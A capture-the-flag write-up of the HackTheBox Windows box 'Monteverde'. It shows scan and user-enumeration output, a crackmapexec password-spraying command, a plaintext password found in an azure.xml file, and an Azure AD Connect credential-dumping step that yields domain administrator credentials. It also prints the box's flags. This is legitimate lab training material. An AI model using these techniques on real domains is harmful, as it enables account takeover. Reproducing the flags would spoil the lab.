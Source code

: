 # Hackthebox - Monteverde
![image](Monteverde.png)
## Summary

Monteverde,a Windows box created by HackTheBox user `egre55`, was an overall medium difficulty box. Initial foothold was finding a cred which was a result of a lazy sysadmin. using that we can find credentials for user in a ```azure.xml``` file. checking the group of that user we see it is in Azure Admin group which mean it can perform DCSync using that we can get administrator credentials and pwned this box.

## Enumeration

### nmap scan
```
# Nmap 7.80 scan initiated Tue June 2 14:11:44 2020 as: nmap -T4 -sC -sV -oN nmap/monteverde 10.10.10.172
Nmap scan report for 10.10.10.172
Host is up (0.21s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-11 19:22:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/11%Time=5E1A1E53%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m22s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-01-11T19:23:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 11 14:17:14 2020 -- 1 IP address (1 host up) scanned in 329.68 seconds
```
we see all the ports are `Active Directory` and `SMB` related

running `emum4linux` we get a list of usernames.
```
=============================
|    Users on 10.10.10.172    |
=============================
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2	Name: AAD_987d7f2f57d2	Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos	Name: Dimitris Galanos	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope	Name: Mike Hope	Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary	Name: Ray O'Leary	Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs	Name: SABatchJobs	Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan	Name: Sally Morgan	Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata	Name: svc-ata	Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec	Name: svc-bexec	Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp	Name: svc-netapp	Desc: (null)

user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```
using that we can create a `users.txt` as
```
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
` crackmapexec smb 10.10.10.172 -u users.txt -p users.txt`

Trying the same username as password we get a successful credential as `SABatchJobs:SABatchJobs`

Trying that on `winrm` we get `Invalid credential` so lets try on `smb`, and Bingo

we can list and Read lot of shares checking //10.10.10.172/users$ share we see there is a `azure.xml` in `mhope` directory
```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
which contain the password as `4n0therD4y@n0th3r$` for `mhope`.

Trying that with [evil-winrm](https://github.com/Hackplayers/evil-winrm) we get a shell as mhope using that we can grab users.txt as `4961976bd7d8f4eeb2ce3705e2f212f2`

## Privilege Escalation

Taking a look to the privileges of this user you can find that it is a member of the group Azure Admins

which means we can do DCSync.

Reading about any exploits for Azure Admin Sync we stumble upon [xpnsec](https://blog.xpnsec.com/about/) [blog](https://blog.xpnsec.com/azuread-connect-for-redteam/)

Performing the attack is as easy as downloading the PS1 [script](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) and executing that.

```
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

and we have credential for administrator using that we can grab root.txt as `12909612d25c8dcf6e5a07d1a804a0bc`
and we have pwned  `Monteverde` 💃💃💃

